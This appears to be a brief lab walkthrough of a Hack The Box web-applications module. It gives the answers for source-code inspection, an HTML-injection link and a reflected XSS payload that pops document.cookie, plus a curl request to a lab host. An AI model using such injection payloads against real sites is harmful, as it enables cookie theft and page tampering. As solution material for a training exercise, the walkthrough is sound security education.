 # Introduction to Web Applications

## Sensitive Data Exposure

go to the IP address url and press 'ctl+u' to see the source code

![image](https://user-images.githubusercontent.com/34996954/172033418-b27b6be7-aefe-465d-ad0e-33892ce76248.png)


## HTML Injection

Insert the following in the input box: 

```
<a href="http://www.hackthebox.com">Click Me</a>
```

![image](https://user-images.githubusercontent.com/34996954/172033437-4a793559-b97c-4d4c-b6f2-1415fcebff22.png)


## Cross-Site Scripting (XSS)


Insert the following in the input box: 

```
#"><img src=/ onerror=alert(document.cookie)>
```

![image](https://user-images.githubusercontent.com/34996954/172033454-ab6bf8aa-89a3-459f-ba59-57f3f9303bd6.png)

![image](https://user-images.githubusercontent.com/34996954/172033472-7e01233f-f8d6-4522-bccd-195292bb755e.png)


## Development Frameworks & APIs

```
curl -X GET 188.166.172.138:31319/index.php?id=1
```

